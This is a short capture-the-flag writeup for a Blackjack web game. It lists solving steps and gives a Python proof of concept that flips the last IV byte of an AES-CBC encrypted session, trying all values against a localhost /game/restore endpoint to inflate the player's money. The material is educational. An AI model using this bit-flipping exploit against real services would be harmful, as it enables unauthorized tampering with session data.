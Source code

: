 # Writeup for Blackjack game

## Steps to solve

- Find dangerous functions
- Examine how encryption works
- You have `iv` and `encrypted_session`
- Examine how session is stored
- Notice that last byte of first encrypted session block, is first digit of you current money
- Imagine how to switch that byte

## Exploit POC

```python
import requests
from base64 import b64encode, b64decode

BASE_URL = 'http://localhost:8000/api'

# Session with 100 000$ (IMPORTANT)
enc = {
  "encryptedSession": "xzkhx4m0dRUDtaIaDC++r/QrbdJBz20nVZAigiXzUeA1OyocViLlvQRXu8SxVv9sXhGUEFor8/2knJ10/PexaflQ/EeJ9tIGITjXBXWBPGnnYyB16nn2+vwqMCBmmfmU0fv2w/TfyB2MkPIEThq1LDyCinEoovq9x7kCjTS2++w=", 
  "iv": "N7V41R1jtpxauVGHHuEk0A=="
}

for i in range(1, 256):
    iv = bytearray(b64decode(enc["iv"]))
    iv[15] = i
    to_restore = {
        "encryptedSession": enc["encryptedSession"],
        "iv": b64encode(iv)
    }

    res = requests.post(BASE_URL+'/game/restore', json=to_restore)

    if 'newUuid' in res.text:
        print(i, end=": \n")
        uuid = res.json()["newUuid"]
        print(uuid)
        res = requests.get(BASE_URL + f'/game/{uuid}/status')
        if 'money' in res.text: 
            print(res.text)
```
